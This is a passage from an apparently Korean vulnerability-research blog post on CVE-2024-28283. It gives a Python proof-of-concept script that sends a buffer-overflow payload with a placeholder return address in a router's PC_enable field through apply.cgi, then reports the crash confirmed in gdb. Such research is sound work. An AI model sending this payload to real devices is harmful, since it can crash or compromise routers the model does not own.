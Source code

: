 앞서 이렇게 분석한 바가 있고, 위와 같이 정상 패킷의 형태도 알고 있으니 이제 익스플로잇을 만들어 보자. 시간이 부족해 기존에 존재하는 익스플로잇을 활용했다.

<br>

```python
# ex.py

import requests

target=input("Enter target IP: ")
session_id=input("Enter session_id: ")

url="http://"+target+"/apply.cgi;session_id="+session_id
headers={}
headers["User-Agent"]="Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0"
headers["Accept"]="text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8"
headers["Accept-Language"]= "en-US,en;q=0.5"
headers["Accept-Encoding"]= "gzip, deflate"
headers["Content-Type"] = "application/x-www-form-urlencoded"
headers["Origin"]="http://"+target
headers["Connection"]="close"
headers["Referer"]="http://"+target+"/apply.cgi;session_id="+session_id
headers["Upgrade-Insecure_Requests"]="1"

data={}
data["submit_button"]="GuestNetworkSetting"
data["gui_action"]="Apply"

pay=b"A"*0x30	#dummy
pay+=b"B"*4		#return address
data["PC_enable"]=pay

r=requests.post(url,headers=headers,data=data)

```

<br>

위 스크립트를 아래와 같이 실행했다.

![/assets/img/posts/2025-01-27-CVE-2024-28283/image.png](/assets/img/posts/2025-01-27-CVE-2024-28283/image%2032.png){: width="80%" height="80%"}

<br>

그 결과, gdb에서 정상적으로 크래시가 발생한 점을 확인했다.

